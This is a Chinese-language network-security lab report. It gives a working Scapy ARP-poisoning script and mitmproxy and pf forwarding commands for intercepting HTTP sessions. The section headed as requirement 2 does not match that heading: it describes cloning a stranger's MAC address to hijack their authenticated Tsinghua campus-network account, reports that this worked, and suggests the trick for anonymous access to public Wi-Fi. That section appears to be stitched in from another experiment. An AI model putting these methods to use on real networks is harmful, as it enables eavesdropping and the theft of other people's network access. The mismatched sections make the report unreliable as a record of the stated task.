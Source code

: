 # 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 要求1

### 实验步骤

1. 首先将三台主机连入子网，为server配置http服务，随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    ![HTTP RESPONSE](fig/browser_norm.PNG)

2. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"
        
        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None

        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)

        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac

        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac

        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```
3. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

4. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

5. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

5. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    ![transparent](fig/transparent.PNG)

## 要求2

### 实验步骤

1. B 修改 MAC 地址冒充 A 骗过校园网认证。

   B 首先观察自己的 IP 和 MAC 地址：

   ```bash
   ifconfig
   ```

   ![B_IP](./fig/B_IP.png)

   可看到其 IP 为 183.173.36.172，MAC 为 78:4f:43:5d:85:44。

   使用如下指令将 MAC 地址改为 A 的 MAC 地址：

   ```bash
   sudo ifconfig en0 ether c4:9d:ed:03:dd:40
   ```

   此时使用 `ifconfig` 观察，MAC 地址易发生改变，但 IP 地址尚未变化。

   ![change_IP](./fig/change_IP.png)

   但很快 B 的网络状态从“已连接”变成了“正在连接”，表示其在等待分配新的 IP 地址。待网络状态变回“已连接”，再次使用 `ifconfig` 观察，发现路由器已经根据 B 此时的 MAC 地址（A 的 MAC 地址），将 A 的 IP 地址给了 B。

   ![B_after](./fig/B_after.png)

   此时 B 打开浏览器上网，进入 net.tsinghua.edu.cn，发现无线网连接确实已被 A 同学认证，并且可以访问互联网。但同时也观察到，当 A、B 同时上网时，网络会变得非常卡顿，有时也会出现无法上网，需要多次刷新的情况。

2. 攻击者（B）获取子网中其他用户的 MAC 地址。

   使用 nmap 工具对子网进行扫描：（子网掩码为 255.255.224.0，共 19 位）

   ```bash
   nmap -sP 183.173.32.0/19
   ```

   ![nmap](./fig/nmap.png)

   ![nmap_res](./fig/nmap_res.png)

   发现使用此方法并不能有效获取子网内其他用户的 IP 以及 MAC 地址。

   因此使用如下指令，查看系统对 ARP 的缓存：

   ```bash
   arp -a
   ```

   ![arp](./fig/arp.png)

   可看到输出了所有在 nmap 时缓存的 IP 地址及其对应的 MAC 地址，而 B 的 IP（183.173.38.125）和 MAC（c4:9d:ed:03:dd:40）也在其中。

   但此方法的缺陷在于，上表中的 IP 并不都是终端设备。若是 B 将 MAC 改为了非终端设备的 MAC 地址，会产生虽分配到相应 IP 地址，却无法正常上网，甚至频繁掉线的现象。在尝试 2 次不同的 IP 对应的 MAC 地址后，我们发现上图中高亮选中的 MAC 地址属于一个终端设备。通过如下命令修改 B 的 MAC：

   ```bash
   sudo ifconfig en0 ether 9c:e3:3f:ba:a5:5f
   ```

   一段时间后使用 `ifconfig` 观察：

   ![anonymous](./fig/anonymous.png)

   发现成功修改了 MAC 地址，并且被自动分配到了该 MAC 地址对应的 IP 183.173.39.169。

   在浏览器中输入 net.tsinghua.edu.cn，结果如下：

   ![succeed](./fig/succeed.png)

   说明 B 确实使用这种方法成功盗用了陌生人的校园网账号，校园网验证方式存在漏洞。

3. 如果 B 修改 MAC 地址和 IP 地址冒充 A，可以做什么？

   在一些公共场合下，很多 WIFI 是无密码，开放连接，但是连接后需要通过短信或微信实名认证。在这种情况下，B 可以利用这种方式随机选取 A 并冒充，达到免认证上网，从而达到 B 的访问网络的真实身份（如 B 的 MAC 地址）被隐匿。

## 分工情况

两实验均由两人共同完成。其中，李逸飞完成了第一题的实验报告，乔逸凡完成了第二题的实验报告。
